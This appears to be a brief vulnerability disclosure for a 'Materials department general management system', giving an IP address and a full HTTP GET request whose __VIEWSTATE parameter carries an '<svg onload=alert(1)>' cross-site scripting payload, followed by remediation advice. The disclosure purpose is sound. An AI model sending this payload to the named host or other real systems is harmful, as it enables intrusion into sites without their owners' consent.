

Materials department general management system

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

120.53.84.158

```
GET /?90=nhiw3&__VIEWSTATE=__VIEWSTATE=<svg onload=alert(1)>//&api=clr44&begindate=eocb8&box%24RememberMe=g68z5&box%24tbPassword=hmnn6&code=xdt49&item=wur90&keyword=boyg9&keywords=kmtf1&list_type=aqa01&name=j5i60&password=jltu7&pwd%24btnChange=jfeh5&query=s6dn2&region=r86q1&s1=jcho3&text=shkv6&theForm=cmmk7&token=k2904 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip
```



**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.